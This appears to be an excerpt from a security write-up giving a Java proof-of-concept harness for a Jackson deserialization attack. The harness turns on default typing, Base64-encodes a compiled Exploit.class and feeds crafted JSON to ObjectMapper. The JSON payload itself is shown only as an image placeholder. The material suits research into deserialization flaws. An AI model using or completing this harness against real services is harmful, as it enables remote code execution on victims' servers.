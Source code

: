 PoC.java

```bash
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {
        String exp = readClassStr("xxx\\Exploit.class");
        String jsonInput = "见下方图片";
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        fakes0u1 fakes0u1;
        try {
            fakes0u1 = mapper.readValue(jsonInput, fakes0u1.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

[![](assets/1701606625-3815e7237f2d53dfbde1f1604035d256.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114144235-feeb6958-82b8-1.png)

